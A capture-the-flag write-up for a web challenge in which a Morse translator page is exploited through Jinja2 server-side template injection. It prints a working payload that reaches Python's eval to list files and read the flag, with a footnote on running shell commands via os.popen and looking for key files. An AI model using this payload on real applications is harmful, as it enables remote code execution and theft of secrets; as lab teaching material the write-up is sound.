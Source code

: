 # DotDashDot 

- Category: Web
- Difficulty: Extreme

Challenge text:
```
An ancient relic of the past... what's it doing here?
http://dotdashdot.d.lagncra.sh 
```

## Solving the challenge
Firstly, lets navigate to the URL provided.
On visiting the page, we see this:  
![image](https://user-images.githubusercontent.com/58442255/233332323-559e150e-2441-4da9-9e47-6af19f260585.png)

Let's look for clues in the website.  
In the source, we see this comment:
```html
<!-- TODO: Repair this page <p>MORSE: <a href="/translate">UP</a></p> -->
```

This shows that there is a page `/translate` in the site. Let us visit http://dotdashdot.d.lagncra.sh/translate.

At /translate, we see this page to convert text into morse:  
![image](https://user-images.githubusercontent.com/58442255/233391274-58c1def0-ecb3-4bfd-a815-898589108c2a.png)  
After translation, we are presented with the morse code form of the text. If we decode the morse, we get back the original text.

If we try a payload like `{{7*7}}`, we notice that the morse code is still `77`(omitting characters that cannot be represented in morse).  
However, if we view the source, we can see a debug section that was supposed to be removed:
```html
 <!-- <div> TODO: Remove debug information
                    <h2>Debug Info</h2>
                    <p>Input: 49</p>
                </div> -->
```

It appears that the debug field is vulnerable to Server-Side Template Injection (SSTI) [^1].

We can use a payload to gain Python RCE into the system: [^2]
```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").listdir()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
This iterates through the subclasses of the base class (`__base__`), and finds `eval` in `__globals__`, and lists the current directory.  

The output shows:
![image](https://user-images.githubusercontent.com/58442255/233395728-92c6bf27-82c8-478c-8344-ad343ddd0e3f.png)

It appears that we are in the root directory.

After searching around for quite some time, I found the flag in `/www/flag.txt` [^3]:
```python
open("/www/flag.txt").read()
```

And we got the flag!
![image](https://user-images.githubusercontent.com/58442255/233396291-97908adf-fc4e-4480-ba9a-c1cb53143fc6.png)


`LNC2023{T3mpl4t35_4r3_c00L_bUt_d4nG3r0u5_776843}`

[^1]: More info on SSTI: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[^2]: This exploit uses Python3 RCE. You can also choose to open a shell with `__import__("os").popen("<shell statement here>").read()`
[^3]: When finding the flags for such challenges, it may be located in non-standard locations, and you may have to search a little. `ls *` is a way you can list all files, even those nested in directories. If you cannot find anything, try looking for clues in the machine (e.g. private key/API key file)
